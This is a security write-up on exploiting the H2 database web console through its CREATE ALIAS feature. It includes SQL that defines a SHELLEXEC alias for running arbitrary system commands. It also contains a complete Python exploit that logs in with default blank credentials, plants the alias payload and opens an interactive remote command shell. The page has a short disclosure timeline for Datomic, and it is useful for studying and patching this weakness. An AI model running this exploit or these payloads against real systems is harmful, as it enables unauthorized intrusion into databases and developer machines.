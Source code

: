 ```yaml
---
title: H2 databases 🥁
---
```

> *Credits to [mthbernardes](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)*

## Abusing H2 Database ALIAS

### How to get a shell on a H2 Database, using ALIAS feature.

Today I was introduced to [H2 Database](http://www.h2database.com/), a in-memory and pure Java Database, because it’s a in-memory database, the developers use it most to learning, unit tests and poc’s, but you can learn more about it on H2 [site](https://mthbernardes.github.io/rce/2018/03/14/2018-03-14-abusing-h2-database-alias.markdown).

The H2 provides a web console, where you can manage your database, and here the things starts to be more interesting, by default it does not have an password set, so you can just log in, but what can we do inside it? The first thing I tried was the same trick that everyone knows on MySQL.

```sql
SELECT 'SOME CONTENT' INTO OUTFILE '/tmp/saida.txt'
```

And of course it didn’t work, so I decided to be more smart and google it, trying to discover if anybody already find some RCE on it, and the maximum I found was a report made by the H2 Group on [SecurityFocus](https://mthbernardes.github.io/rce/2018/03/14/'https://www.securityfocus.com/bid/58536'), but there wasn’t an available exploit or any technical detail.

So after it I did the most obvious thing, open the H2 site, go to the documentation, and tried to find any interesting function, the first thing I found was the [FILE_READ](http://www.h2database.com/html/functions.html?highlight=FILE_READ&search=FILE_#file_read) function, where I can read files from filesystem, Ok, cool, it’s a nice thing to do, but it’s not a shell, so digging on SQL commands section, I found the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias), basically, you can create an function on H2 that calls a java code, as the example

```sql
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
CALL GET_SYSTEM_PROPERTY('java.class.path');
```

or a more complex alias,

```sql
CREATE ALIAS REVERSE AS $$ String reverse(String s) { return new StringBuilder(s).reverse().toString(); } $$;
CALL REVERSE('Test');
```

Now it’s game over, if I can execute Java code, I can get a shell, as I’m not a Java expert, I searchon Google a easy way to execute system commands with java, found a link on [stackoverflow](https://stackoverflow.com/a/20624914), I just adapted it inside the ALIAS, and now there’s a function that execute arbitrary code,

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```

After that just find if the server have any tool to do a [reverse shell](https://github.com/mthbernardes/rsg), and you’ll gain a interactive shell.

![h2-console-rce](https://mthbernardes.github.io/assets/images/h2-console-rce.gif)

### Attack Scenario

One scenario is a distributed database called Datomic. The free version of Datomic uses an embedded H2 storage, and older versions of Datomic enabled the H2 console with the default blank H2 password. The free version is often used locally by developers for quick prototyping, thus unauthenticated local attackers can easily compromise their machines. The issue was disclosed to the Datomic team and was quickly [fixed](http://blog.datomic.com/2018/03/important-security-update.html).

### Datomic Timeline

2018-03-14 - Initial Vulnerability discovery

2018-03-20 - First contact with Datomic team

2018-03-29 - Fix released

2018-04-05 - Blog published.

### Exploit

```python
import sys
import argparse
import html
import requests

def getCookie(host):
    url = 'http://{}'.format(host)
    r = requests.get(url)
    path = r.text.split('href = ')[1].split(';')[0].replace("'","").replace('.jsp','.do')
    return '{}/{}'.format(url,path)

def login(url,user,passwd,database):
    data = {'language':'en','setting':'Generic+H2+(Embedded)','name':'Generic+H2+(Embedded)','driver':'org.h2.Driver','url':database,'user':user,'password':passwd}
    r = requests.post(url,data=data)
    if '<th class="login">Login</th>' in r.text:
        return False
    return True

def prepare(url):
    cmd = '''CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;'''
    url = url.replace('login','query')
    r = requests.post(url,data={'sql':cmd})
    if not 'Syntax error' in r.text:
        return url
    return False

def execve(url,cmd):
    r = requests.post(url,data={'sql':"CALL EXECVE('{}')".format(cmd)})
    try:
        print(html.unescape(r.text.split('</th></tr><tr><td>')[1].split('</td>')[0].replace('<br />','\n').replace('&nbsp;',' ')).encode('utf-8').decode('utf-8','ignore'))
    except Exception as e:
        print('Something goes wrong')
        print(e)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    required = parser.add_argument_group('required arguments')
    required.add_argument("-H",
            "--host",
            metavar='127.0.0.1:4336',
            help="Specify a host",
            required=True)
    required.add_argument("-d",
            "--database-url",
            metavar='jdbc:h2~/test',
            default="jdbc:h2~/test",
            help="Database URL",
            required=False)
    required.add_argument("-u",
            "--user",
            metavar='username',
            default="sa",
            help="Username to log on H2 Database, default sa",
            required=False)
    required.add_argument("-p",
            "--password",
            metavar='password',
            default="",
            help="Password to log on H2 Database, default None",
            required=False)
    args = parser.parse_args()

url = getCookie(args.host)
if login(url,args.user,args.password,args.database_url):
    url = prepare(url)
    if url:
        while 1:
            try:
                cmd = input('cmdline@ ')
                execve(url,cmd)
            except KeyboardInterrupt:
                print("\nProfessores ensinam, nadadores Nadam e Hackers Hackeiam")
                sys.exit(0)
    else:
        print('ERROR - Inserting Payload')
        print("Something goes wrong, exiting...")
else:
    print("ERROR - Auth")
    print("Something goes wrong, exiting...")
```

